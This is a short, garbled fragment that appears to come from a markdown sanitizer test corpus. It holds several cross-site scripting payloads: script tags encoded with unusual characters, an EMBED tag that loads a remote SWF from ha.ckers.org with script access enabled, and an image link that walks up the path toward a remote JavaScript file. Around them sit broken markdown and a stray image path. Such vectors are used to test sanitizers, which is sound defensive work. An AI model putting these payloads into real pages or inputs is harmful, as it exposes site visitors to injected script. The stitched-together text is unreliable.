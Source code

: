 ![

<img src='¼script¾alert(¢XSS¢)¼/script¾'>
<div dir="¼script¾alert(¢XSS¢)¼/script¾">¼script¾alert(¢XSS¢)¼/script¾</div>

<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>

](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
